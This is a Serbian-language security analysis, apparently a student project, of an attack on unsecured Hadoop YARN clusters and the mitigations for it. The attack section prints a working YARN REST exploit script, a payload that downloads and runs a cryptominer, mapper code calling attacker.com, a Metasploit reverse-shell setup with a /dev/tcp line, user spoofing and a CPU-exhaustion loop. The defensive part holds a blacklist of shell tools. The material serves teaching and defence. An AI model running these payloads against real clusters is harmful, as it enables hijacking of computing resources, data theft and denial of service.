




<a id="referentna_arhitektura"></a>
# Referentna arhitektura
Ovo je referentni nezaštićeni _Hadoop_ klaster koji je postavljen od strane osobe sa osnovnim znanjima po pitanju bezbednosti. Dijagram se dirketno oslanja na prethodno razrađene dijagrame tokova podataka, s tim da je ovde fokus na čvorovima klastera. Potrebno je uvesti određenu referentnu arhitekturu kako bi se na lakši način ispratile analize, napadi i mitigacije u odnosu na posmatrane pretnje. Konkretan čvor može predstavljati zaseban server, pri čemu svi čvorovi klastera međusobno komuniciraju. Pretpostavka je da su svi čvorovi pokrenuti na operativnom sistemom _Linux_ distribucije , jer se zbog prilagođenosti i podrške takav izbor dominantno sreće u praksi [[2]](#[2]). Kod nezaštićenog klastera korisnik može komunicirati sa svim čvorovima, bilo kroz nezaštićene javne servise ili direktno putem terminal sesije odnosno _SSH_ sesije u kombinaciji sa _Hadoop_ klijent interfejsom. S obzirom da je reč o distribuiranom sistemu, konfiguracije kao i korisnici su redudantno prisutni na svim čvorovima. [[3]](#[3]) Od korisnika, za sada, je potrebno istaći _hdfs_ i _yarn_ koji su ekvivalent _root_ korisniku u _Hadoop_ modulu.


_Slika 1: Komunikacija korisnika sa Hadoop klasterom_

Za referentni klaster uzima se osnovni model bez primene naprednih bezbednosnih mehanizama. Podrazumeva se korišćenje standardno definisane kontrole pristupa _Hadoop_ klastera, pri čemu korisnik ili dobija potpun pristup klasteru ili ga nema uopšte [[4]](#[4]). Na taj način kontrola pristupa se praktično svodi na nivo čvora koji učestvuje u klasteru. Ovakav pristup nije neuobičajen, već se često sreće u praksi, s obzirom na to da se klasteri najčešće podižu u tzv. "bezbednim okruženjima" [[5]](#[5]).

# Stablo napada
Sledeće stablo napada oslikava analizu pretnje visokog nivoa _Manipulacija poslovima (P41)_, koja je prepoznata egzistencijom kritičnog resursa _Poslovi i zadaci (R4)_. 
<a id="slika_2"></a>


_Slika 2: Stablo napada razvijeno u odnosu na pretnju visokog nivoa Manipulacija poslovima (P41)_

Par napomena koje su uvedene radi preglednosti dijagrama:
* Pretnje su povezane samo sa bezbednosnim kontrolama koje predstavljaju dovoljan uslov za njihovu efikasnu zaštitu.
* Keberos kao bezbednosna kontrola se praktično kod svih napada preporučuje, pa je izostavljena. Smatra se da automatski podrazumeva i autorizaciju, ne samo autentifikaciju.
* Trivijalne bezbednosne kontrole, poput ažuriranja verzija zavisnosti, se podrazumevaju. 


U nastavku su predstavljeni odabrani napadi. Oni su definisani tako da što jasnije grupišu klase napada. U skladu sa procenjenim rizikom, izdvojeni napadi predstavljaju najučestalije realizacije pretnji u kontekstu poslova na nivou _YARN_ komponente [[6]](#[6]).

<a id="A4111"></a>
# A4111. Napad na ranjive pristupne tačke _YARN_ komponente

Ovaj napad se pre svega ogleda u načinu funkcionisanja _YARN_ komponentne. Glavni cilj _YARN_ komponente je omogućiti distribuirano procesuiranje najrazličitijih tipova aplikacija bez potrebe za dubljim znanjima. Dakle, isporučiti aplikaciju kroz zahtev i dobiti rezultate procesuiranja. Pošto je moguće uputiti javni zahev za aplikacijom proizvoljnog tipa, a _Hadoop_ klasteri obiluju resursima, to malicioznim korisnicima privlači pažnju.  

Suština napada je plasiranje _malware_ aplikacija kroz eksploataciju ranjivosti pristupnih tačaka.

U _YARN_ komponenti pristupne tačke mogu biti:
1. Pristup putem sesije u terminalu.
2. Pristup putem javno dostupnih _REST API_ servisa.
3. Pristup putem _Web UI_ servisa (nerelevantan, jer ne omogućava kreiranje aplikacija).

Reč je o istoj klasi napada, bez obzira na tip pristupne tačke. Zastupljenost napada je veća kod _REST API_ servisa jer je i površina za napad veća. 

__Sesija u terminalu__

U ovom slučaju reč je o manje verovatnom obliku napada, jer je napadač osoba koja je najčešće prethodno ovlašćena za upotrebu servisa. Ipak, bez obzira, dokle god su pristupne tačke ranjive, moguće je izvršiti napad. 

__REST API servis__

_YARN_ komponenta je javno dostupna preko _ResourceManager_ čvora. Zbog nedostatka autentifikacije napad je moguć čak i uz omogućenu autorizaciju. Da bi se napad sprečio potrebno je implementirati napredne bezbednosne mehanizme.

__Problematika autentifikacije__

S obzirom da _Hadoop_ modul nema internu podršku autentifikaciji, već samo autorizaciji, napadač se vrlo lako može lažno predstaviti. 
Ako _Hadoop_ modul nema javno dostupne pristupne tačke, tada se razmatra slučaj lokalnih korisnika na operativnim sistemima. Lokalni korisnik se prijavljuje na konkretan čvor sa svojim kredencijalima. _Hadoop_ modul će u promenljivu `HADOOP_USER_NAME` smestiti korisničko ime ulogovanog korisnika. Korisnik na trivijalan način može izmeniti promenljivu na vrednost `hdfs`, `yarn` ili bilo čije korisničko ime (npr. `alice`). 
``` sh
export HADOOP_USER_NAME=alice
hadoop fs -ls /data/financial_data
```
Za slučaj kada _Hadoop_ modul ima javno dostupne pristupne tačke, dovoljno je proslediti proizvoljnu vrednost korisničkog imena (npr. `admin`) kao upitni parametar _HTTP_ zahteva. 
``` sh
curl -X POST http://resource-manager:8088/ws/v1/cluster/apps/new-application?user.name=admin
```
Zaključuje se da je nepostojećom autentifikacijom obesmišljena autorizacija.

__Sinergija faktora__

Sledeći faktori sinergetski utiču na pojavu ovog napada:
- Istorijski bezbednost nije bila fokus _Hadoop_ modula. Podrazumevalo se bezbedno okruženje.
- Podrazumevani režim _Hadoop_ modula (_Simple Authentication_) je nebezbedan.
- _YARN REST API_ i _Web UI_ servisi su podrazumevano javno dostupni.
- _Hadoop_ modul favorizuje _usability_.
- Izuzetna kompleksnost implementacija komponente za autentifikaciju - _Kerberos_ [[7]](#[7])[[8]](#[8]).
- Korisnik se može lažno predstaviti (_spoofing_).
- Ako nema autentifikacije tada nema ni autorizacije.
- Aplikacije mogu biti različitog tipa. Teško utvrditi semantiku.
- Aplikacije (kontejneri) se pokreću od strane _yarn_ korisnika.
- Dopušten izlazni saobraćaj prema bilo kome.
- Praktično direktno obraćanje čvorovima.
- Angažovanje nestručnog osoblja (junior administrator).
- Nije potrebno naročito tehničko znanje (mnoštvo napadača).
- Velika površina za napad.

To su ključni razlozi zašto _YARN_ pristupne tačke, pre svega javno dostupne, postaju tako lako ranjive, i zašto ovaj napad predstavlja izbor broj jedan u _Hadoop_ klasterima. Stoga je reč o trivijalnoj, ali kritičnoj ranjivosti.

__Zanimljivosti__

Ako se razmatra napad na javno dostupne pristupne tačke, sa pretpostavljenim [klasterom](referentna_arhitektura), onda se mogu pronaći sledeće zanimljivosti. Poznato je da je u pitanju najzastupljenija klasa napada u _Hadoop_ klasterima, pri čemu se svakog momenta izvrši 300 000 pokušaja realizacije. Svi javno dostupni _Hadoop_ klasteri bivaju aktivno traženi od strane specijalizovanih pretraživača kao što su _Shodan_ ili _Fofa_ [[6]](#[6]). Pitanje je vremena kada će biti pronađeni i napadnuti.

Kao što se može primetiti pregledom stabla napada na [slici 2](#slika_2), realizacijom ovog napada ostvaruje se događaj pokretanje maliciozne aplikacije. Cilj napadača će biti predodređen tipom maliciozne aplikacije. U praksi se najčešće sreću _botnet_, _crypto mining_ i _ransomware_ aplikacije, pri čemu gotovo uvek dolazi i do krađe podataka [[9]](#[9]). Da bi opis ove klase napada bio zanimljiviji i realističniji, fokus će biti na pokretanju _crypto mining_ aplikacije. Uz napomenu da je krađa podataka daleko najozbiljnija pretnja po jedan _Hadoop_ klaster, a osnovni cilj napadača često se širi, obuhvatajući sve kritične resurse i servise kojima ima pristup, uz mogućnost pivotiranja [[10]](#[10])[[11]](#[11]). Pokretanje malicioznih aplikacija je kritična pretnja kojom se u zavisnosti od tipa aplikacije može narušiti bilo koje bezbednosno svojstvo resursa ili servisa. Rizik za realizacijom ove pretnje je kritičan s obzirom na visok negativan uticaj pretnje i visoku verovatnoću izvršavanja.


## Realizacija napada
Osnovni _payload_ predstavlja `.py` skripta, pomoću koje je moguće realizovati napad [[12]](#[12]). 
Od parametara je potrebno uneti:
- `scheme`, _URL_ šemu _REST API_ servisa.
- `target`, adresu _REST API_ servisa.
- `port`, port _REST API_ servisa.
- `attacker_address`, adresu napadača.
- `attacker_port`, port adrese na kom napadač sluša.

Trenutno je reč o direktnom obraćanju _ResourceManager_ čvoru.
``` python
import requests

scheme = 'http' 
target = 'resource-manager'
port = '8088'
base_url = f"{scheme}://{target}:{port}/ws/v1/cluster/apps/" 
url = base_url + "new-application"
resp = requests.post(url)
app_id = resp.json()['application-id']
url = base_url
attacker_address = '192.168.1.5'
attacker_port = '9999'

data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': 'malicious command',
        },
    },
    'application-type': 'YARN', 
}

requests.post(url, json=data)
```

### _Crypto mining_ aplikacija
Obaviće se simulacija napada tako što će se pokrenuti lokalni server koji će skladištiti potrebne fajlove kripto majnera. Zatim će se se izvršiti maliciozni posao čiji opis predstavlja preuzimanje i pokretanje kripto majnera.

Pokrenuti lokalni server:
``` sh
python -m http.server 15066
```

Potrebno je preuzeti neki od _light_ kripto majnera i iskonfigurisati ga u zavisnosti od motivacije i ciljne platforme [[13]](#[13])[[14]](#[14]). Dostupni su kripto majneri sa vrlo širokim skupom podešavanja, poput postavljanja višestrukih kripto adresa, pokretanja u _IDLE_ režimu, rudarenja u određenim vremenskim trenucima, dinamičkog nivoa opterećenja resursa i tako dalje. Fokus je na kripto majnerima koji eksploatišu centralni procesor, budući da grafički procesori obično nisu prisutni na _Hadoop_ serverima. Najčešće izabrana kripto valuta je _Monero_, pošto se pokreće na centralnom procesru i nudi visok nivo anonimnosti. 


Ažurirati _payload_ za preuzimanje i pokretanje kripto majnera [[15]](#[15])[[16]](#[16]). 
```python
"command": f"curl -o xmrig http://{attacker_address}:{attacker_port}/xmrig && "  
           f"curl -o config.json http://{attacker_address}:{attacker_port}/config.json && "
           "chmod +x xmrig && " 
           "./xmrig"
```
Dakle, izvršiće se preuzimanje samog binarnog fajla kripto majnera, kao i konfiguracionog fajla sa željenim postavkama. Zatim će se dodeliti privilegije izvršavanja binarnom fajlu. Nakon čega će se izvršiti pokretanje i brisanje binarnog i konfiguracionog fajla kako bi se prikrili tragovi.

Čitav _NodeManager_ čvor, unutar kog je pokrenut _ApplicationMaster_ kontejner, je opterećen na 100%, čime se postiže praktična neupotrebljivost čvora klastera zaduženog za obradu poslova.


_Slika 3: Rezultat pokretanja crypto mining posla_



_Slika 4: CPU opterećenje _NodeManager_ čvora uzrokovanom pokretanjem crypto mining posla_


Ako je napadač zaposleni, tada on poseduje terminal sesiju nad _ResourceManager_ čvorom i može definisati malicioznu _mapper_ funkciju. Sledeće varijante zaobilaze korišćenje _YARN REST API_ servisa. 

Primer _mapper_ funkcije napisane u _Python_ programskom jeziku:
``` py
def mapper:
  os.system("wget http://attacker.com/malware.py -O /tmp/malware.py && python /tmp/malware.py")
```
Primer _mapper_ funkcije napisane u _Java_ programskom jeziku:
``` java
public class Mapper extends Mapper<LongWritable, Text, Text, IntWritable> {
  @Override
  protected void map(LongWritable key, Text value, Context context) {
    Runtime.getRuntime().exec("curl http://attacker.com/malware.sh | sh");
  }
}
```
U kasnijim primerima će biti prikazane komande kojima se pokreću poslovi na različite načine.

### _Reverse shell_ aplikacija

U ovom slučaju prikazaće se pokretanje malicioznog posla čiji opis predstavlja _reverse shell_ komandu uz kasniju eskalaciju napada. Za  uspostavljanje _reverse shell_ sesije korišćen je alat _msfconsole_.

Za početak, sledi proces otvaranja porta na _Windows_ mašini. Pokrenuti _metaspolit_ u _command prompt_ sesiji:
``` sh
msfconsole
```
Odabrati eksploit za otvaranje porta:
``` sh
use exploit/multi/handler
```
Odabrati _payload_:
``` sh
set payload cmd/unix/reverse_bash
```
Postaviti adresu napadača
``` sh
set LHOST 192.168.1.5
```
Odabrati port koji će biti u režimu slušanja:
``` sh
set LPORT 9999
```
Ostaviti sesiju nakon što postane aktivna:
``` sh
set ExitOnSession false
```
Započeti proces slušanja:
``` sh
exploit -j
```

Nakon što je port otvoren, potrebno je pokrenuti podrazumevani eksploit uz manje modifikacije. 
```python
'command': f"/bin/bash -i >& /dev/tcp/%s/{attacker_port} 0>&1' % {attacker_address}",
```

Sada je potrebno vratiti se na _command prompt_ sesiju kako bi se otvorila _reverse shell_ sesija u okviru _ApplicationMaster_ kontejnera. 

Pregledati sve sesije:
``` sh
sessions
```
Zatim izabrati sesiju koja je uspostavljenja:
``` sh
sessions -i <session_id>
```
Moguće je proveriti pod kojim korisnikom se izvršava sesija, i odgovor kod referentnog klastera bi bio _yarn_.
``` sh
whoami # yarn
```


_Slika 5: Rezultat pokretanja reverse shell posla_

Kao što je navedeno pri analizi, često sledi dalja eskalacija napada u vidu sabotaže _firewall_ postavki, ispitivanje komponenti sistema radi mogućeg širenja (pivotiranje).
Iz pozicije _yarn_ korisnika u _ApplicationMaster_ kontejneru, vrlo je lako dobiti pristup svim blokovima podataka. Takođe je moguće pokrenuti i bilo kakvu aplikaciju uz neograničene resurse. Radi demonstracije opisanog slede dva mini primera eskalacije.

__Čitanje blokova podataka__

Postaviti promenljivu okruženja na direktorijum u kojem je instaliran _Hadoop_:
``` sh
export HADOOP_HOME=/opt/hadoop-3.2.1
```
Dodati `bin` direktorijum iz _Hadoop_ instalacije u promenljivu `PATH`, kako bi _Hadoop_ komande bile dostupne iz bilo kog direktorijuma:
``` sh
export PATH=$HADOOP_HOME/bin:$PATH
```
Sada su dostupne komande za pregled svih podataka skladištenih u distribuiranom fajl sistemu (blokovi podataka):
``` sh
hdfs dfs -ls /
```
__Izazivanje nedostupnosti klastera__

Pokrenuti beskonačnu petlju:
``` sh
nohup sh -c "while true; do :; done" &
```

## Mitigacije
Većina standardnih bezbednosnih kontrola koje se koriste kod _Hadoop_ klastera neće u potpunosti otkloniti ovu klasu napada.
Površina za napad će se značajno smanjiti ako se uvede bezbednosni mehanizam _Kerberos_. Tada će se upotreba klastera omogućiti samo autentifikovanim i autorizovanim korisnicima. Nažalost, i dalje je moguće pokretanje malicioznih aplikacija od strane regularnih korisnika. 

Plan je postaviti više bezbednosnih kontrola, kako bi bezbednosna svojstva resursa ili servisa bila apsolutno očuvana. To će biti urađeno na sledeći način:
1. Zabranom bilo kakve komunikacije izvan kontejnera, osim ako to nisu druge komponente _Hadoop_ klastera [[17]](#[17]).
2. Zabranom mapiranja privilegija _yarn_ korisnika između _NodeManager_ čvora i kontejnera, uz eliminaciju ključnih ranjivosti. Ovaj pristup je neophodan kako napadač ne bi isključio prethodno uspostvljena _firewall_ podešavanja.
3. Uspostavljanjem pravila za proveru tipa aplikacije. Potrebno je zabraniti sve aplikacije koje žele da pokrenu _shell_ sesiju. Prve dve bezbednosne kontrole su dovoljne, ali kako bi se sistem dodatno zaštitio trebalo bi postaviti i ovu kontrolu. Za veliku većinu _Hadoop_ klastera nije normalno ponašanje pokretanje _shell_ sesije na _ApplicationMaster_ kontejneru.
4. Postavljanjem jake autentifikacije i autorizacije. Kerberos.
5. Sprečavanjem direktnog pristupa čvorovima uvođenjem _gateway_ čvora. Preveliki je rizik dozvoliti bilo kom korisniku da se obraća bilo kom čvoru klastera.

<a id="M4111a"></a>
### M4111a - Kontrola mrežnog saobraćaja 
U nastavku će biti ilustrovana sekvenca potrebnih komandi sa fokusom na isključivanje izlaznog saobraćaja kontejnera. Razmena saobraćaja između komponenti _Hadoop_ klastera će biti omogućena. Ugao posmatranja će biti jedan _NodeManager_ čvor. Koristiće se alat koji je najčešći izbor u _Linux_ distribucijama, `iptables` [[18]](#[18]).

Poništiti trenutna pravila za spoljašnji i unutrašnji saobraćaj, iako je fokus na spoljašnjem.
``` sh 
iptables -F OUTPUT
iptables -F INPUT
```
Uvesti politiku kojom zabranjujemo sav ulazni i izlazni saobraćaj.
``` sh 
iptables -P INPUT DROP
iptables -P OUTPUT DROP
```
Dozvoliti saobraćaj unutar čvora.
``` sh
iptables -A OUTPUT -o lo -j ACCEPT
iptables -A INPUT -i lo -j ACCEPT
``` 
Dozvoliti razmenu saobraćaja sa _NameNode_ čvorom.
``` sh
iptables -A OUTPUT -p tcp -d namenode -j ACCEPT
iptables -A INPUT -p tcp -s namenode -j ACCEPT
```
Dozvoliti razmenu saobraćaja sa _ResourceManager_ čvorom.
``` sh
iptables -A OUTPUT -p tcp -d resourcemanager -j ACCEPT
iptables -A INPUT -p tcp -s resourcemanager -j ACCEPT
```
Dozvoliti razmenu saobraćaja sa _DataNode_ čvorovima.
``` sh
iptables -A OUTPUT -p tcp -d datanode1 -j ACCEPT
iptables -A INPUT -p tcp -s datanode1 -j ACCEPT
iptables -A OUTPUT -p tcp -d datanode2 -j ACCEPT
iptables -A INPUT -p tcp -s datanode2 -j ACCEPT
```
Dozvoliti razmenu saobraćaja sa _HistoryServer_ čvorom.
```sh
iptables -A OUTPUT -p tcp -d historyserver -j ACCEPT
iptables -A INPUT -p tcp -s historyserver -j ACCEPT
```
Dozvoliti razmenu saobraćaja sa dodatnim _NodeManager_ čvorom.
```sh
iptables -A OUTPUT -p tcp -d nodemanager2 -j ACCEPT
iptables -A INPUT -p tcp -s nodemanager2 -j ACCEPT
```
Dozvoliti razmenu saobraćaja sa _DNS_ serverom. 
```sh
iptables -A OUTPUT -p tcp --dport 53 -d dns -j ACCEPT
iptables -A OUTPUT -p udp --dport 53 -d dns -j ACCEPT
iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -p tcp -s dns -j ACCEPT
iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -p udp -s dns -j ACCEPT
```
__Napomena:__ Može se primetiti da je izlazna (inicijalna) komunikacija sa _DNS_ serverom zadata korišćenjem porta 53. Nakon uspostavljanja komunikacije, _DNS_ server će odgovarati na nasumično izabran port od strane _NodeManager_ čvora. Zabranjeno je da _DNS_ server pruža odgovor na bilo koji port, već na prethodno prosleđen port. Ovo je moguće ostvariti praćenjem stanja konekcije. Postoji veća količina portova za svaki od čvorova. Samo za _ResourceManager_ čvor postoji minimum 5 portova na kojima sluša [[19]](#[19]). Stoga je potrebno biti svestan svih portova na kojima se obavlja komunikacija za svaki od čvorova. Praktično, svaki čvor može sa svakim pričati. Ako napadač osvoji jedan čvor on će vrlo lako pronaći otvorene portove drugih čvorova, čime se obesmišljava limitiranje komunikacije samo na definisanim portovima, a skripta i izvedba se značajno komplikuju. Iako se smatra da je dobra praksa to uraditi, trenutno je preskočeno. Obavezno poraditi na drugim bezbednosnim kontrolama koje pružaju bolju zaštitu na nivou međučvorova.

Prethodnu skriptu je potrebno pokrenuti na svim _NodeManager_ čvorovima. Savet je da se uz minimalne izmene, skripta pokrene i na ostalim čvorovima. Obratiti pažnju kod _ResourceManager_ čvora, pošto je potrebno dozvoliti komunikaciju za _YARN REST API_ i _YARN Web UI_ servise i ka eksternim entitetima. 



_Slika 6: Rezultat pokretanja crypto mining posla nakon uvođenja bezbednosne kontrole_

<a id="M4111b"></a>
### M4111b - Sužavanje mogućnosti kontejnera
Isključivanje _firewall_ podešavanja je vrlo često prva aktivnost napadača u sklopu složenijeg napada [[20]](#[20]). Za slučaj eventualnog prolaska maliciozne komande eliminisati ključne ranjivosti.
Preduslov za uvođenje narednih bezbednosnih kontrola predstavlja `LinuxContainerExecutor`, koji je korišćen od strane _YARN_ komponente radi adekvatnog pokretanja kontejnera uz očuvanje zadatih bezbednosnih mehanizama.
``` xml
<property>
  <name>yarn.nodemanager.container-executor.class</name>
  <value>org.apache.hadoop.yarn.server.nodemanager.LinuxContainerExecutor</value>
</property>
```
Potrebno je isključiti propagaciju privilegija koje ima _yarn_ korisnik na nivou kontejnera u odnosu na čitav _NodeManager_ čvor. Ovo se postiže zahvaljujući vrednosti `NET_ADMIN`, mada potrebno je odbaciti još neke mogućnosti korisnika kontejnera. `SYS_ADMIN` predstavlja naprednu mogućnost upravljanja sistemom, obezbeđujući većinu privilegovanih operacija. `NET_RAW` otvara mogućnost za mnoštvo _MITM_ (_man in the middle_) napada [[21]](#[21]).
``` xml
<property>
  <name>yarn.nodemanager.dropped.capabilities</name>
  <value>NET_RAW,SYS_ADMIN,NET_ADMIN</value>
</property>
```

<a id="M4111c"></a>
### M4111c - Detekcija malicioznih tipova aplikacija
 
Moguće je dublje istražiti vrste komandi koje se koriste od strane napadača, pa ih naknadno dodati čime bi se ostvario veći nivo zaštite. Trenutno su dodate najpoznatije koje se očekuju. Ova bezbednosna kontrola se dodaje kao vid dobre prakse kako bi se ojačala postojeća zaštita. Razlog leži u činjenici postojanja minimalne šansa za pokretanjem neke kreativne maliciozne komande, koja bi uspela da zaobiđe ili onemogući postojeće bezbednosne kontrole. Na primer, maliciozno kontaktiranje internih servisa. Primenom ove bezbednosne kontrole je vrlo otežana penetracija malicioznih komandi, a čak i ukoliko prođu, izuzetno su male šanse da ih druga bezbenosna kontrola neće detektovati. Moguće je primeniti i obrnutu logiku, pa samo kreirati _whitelist_ dozvoljenih komandi što bi bilo efikasnije. Značajno je dobro poznavanje slučajeva korišćenja i komandi koje se pokreću regularno od strane korisnika, kako korisnici ne bi bili nepravedno limitirani pri pokretanju aplikacija.

Potrebno je presretati komande prosleđene putem javno dostupnih _YARN REST API_ servisa ili direktno korišćenjem terminal sesije. Aktiviranjem mitigacije _[M4111b](#M4111b)_ se pruža mogućnost za jednostavno i centralizovano presretanje komandi koje predstavljaju zahtev za pokretanje kontejnera. 

Unutar svakog _NodeManager_ čvora potrebno je izmeniti `container-executor.cfg` fajl, tako što bi se dodala sledeća linija. Reč je o putanji do `interceptor` skripte. 
``` sh
launch-script=/opt/hadoop-hooks/launch-interceptor.sh
```

Takođe je u `yarn-site.xml` fajlu potrebno dodati grupu koja sme da pokreće kontejnere [[22]](#[22]). Ukoliko se ovo ne učini, u pitanju je bezbednosni propust kod koga je moguće pokretanje kontejnera od strane korisnika koji ne pripadaju toj grupi.
``` xml
<property>
  <name>yarn.nodemanager.linux-container-executor.group</name>
  <value>yarn</value>
</property>
```
Svaka komanda zahtevnog posla je presretnuta i proveren je tip komande. Ukoliko je reč o potencijalno malicioznoj komandi, biće odbačena čime kontejner neće biti pokrenut.
``` sh
BLACKLIST=(bash sh curl wget nc "while true" mkfs)

for ban in "${BLACKLIST[@]}"; do
  if [[ "$*" == *"$ban"* ]]; then
    echo "DENIED: '$ban' found in command: $*" >&2
    exit 1
  fi
done

exec "$@"
```
- `$*` predstavlja čitavu komandu kao jedan string.
- `$@` predstavlja zahtevane komande i argumente u izvornom obliku.

__Napomena:__ Pri izgradnji složenije skripte savet je koristiti regularne izraze. 

<a id='M4111d'></a>
### M4111d - Uvođenje _Kerberos_ komponente
_Kerberos_ komponenta će biti detaljnije obrađena u odnosu na ostale mitigacije, jer je njena bezbednosna vrednost u kontekstu smanjenja površine za napad nemerljiva, što važi za bilo koji _Hadoop_ klaster. 

Postoje četiri osnovne komponete: 
1. _Kerberos_ klijent
2. _AS (authentication server)_
3. _TGS (ticket granting server)_
4. _KDC (key distribution center)_

_Kerberos_ se zasniva na izdavanju vremenski ograničenih tiketa (tokena) kojima se obavlja autentifikacija unutar _Hadoop_ klastera.  Pretpostavka je da su ranije kreirani servisni korisnici, kao i korisnici koji predstavljaju klijente. Neki od primera servisnih korisnika bi bili _hdfs_, _yarn_ ili _mapred_, dok bi primeri klijentskih korisnika bili _alice_, _bob_ ili _john_. Servisni korisnici se koriste za izvršavanje _Hadoop_ servisa kojima se opslužuju klijentski korisnici. _Kerberos_ klijent predstavlja one čvorove na kojima je instalirana podrška za _Kerberos_. _Kerberos_ će biti korišćen od obe vrste korisnika. Klijentski korisnici mogu koristiti _Kerberos_ dodatno i putem javno dostupnih servisa. Dalje, _AS_ će služiti za inicijalnu autentifikaciju i izdavanje _TGT-a (ticket granting ticket)_. _TGS_ će služiti za procesiranje _TGT-a_ i izdavanje _ST-a (service ticket)_. _KDC_ objedinjuje prethodne dve komponente i nadležan je za njihovo upravljanje. Poseduje i bazu podataka gde se čuvaju hešovane vrednosti lozinka korisnika (principala). _Kerberos_ se zasniva na autentifikaciji bez razmene lozinka, čije će značenje biti jasnije u nastavku.

Principal se zadaje u formatu `servis|klijent/hostname@realm` i predstavlja jedinstveni identifikator servisa ili klijenta u _Kerberos_ komponenti [[23]](#[23]):
- `realm` predstavlja administrativni domen _Kerberos_ komponente. To je način za logičko grupisanje svih korisnika i servisa koji koriste _Kerberos_.
- `hostname` predstavlja naziv čvora koji koristi _Kerberos_.

Tok obrade zahteva za izvršavanje željene operacije bi okvirno bio sledeći. Klijent će zatražiti da se prijavi na _Kerberos_ upotrebom ličnog principala i lozinke. _KDC_ će proveriti kredencijale i ako je sve u redu vratiće _TGT_, čime je klijent uspešno prijavljen. Kada klijent želi da pristupi nekom servisu, potrebno je poslati _TGT_ sa principalom servisa. Zatim će _TGS_ proveriti i isporučiti _ST_ klijentu koji će klijent koristiti za autentifikaciju. Na kraju će se klijent obratiti servisu koristeći _ST_, pri čemu će ga servis autentifikovati, i odgovor na zahtev će biti predstavljen kao uspešan. Kada klijent šalje _HTTP_ zahtev, tada se koristi _SPNEGO (Simple and Protected GSS-API Negotiation Mechanism)_ _wrapper_ koji automatizuje prethodno opisanu procedru, i sve se predstavi kao jedan odgovor.
U nastavku će tok obrade zahteva biti pojašnjen na višem nivou detaljnosti. 


_Slika 7: Dijagram sekvence obrade zahteva za izvršavanje željene operacije_


#### Faza 1 
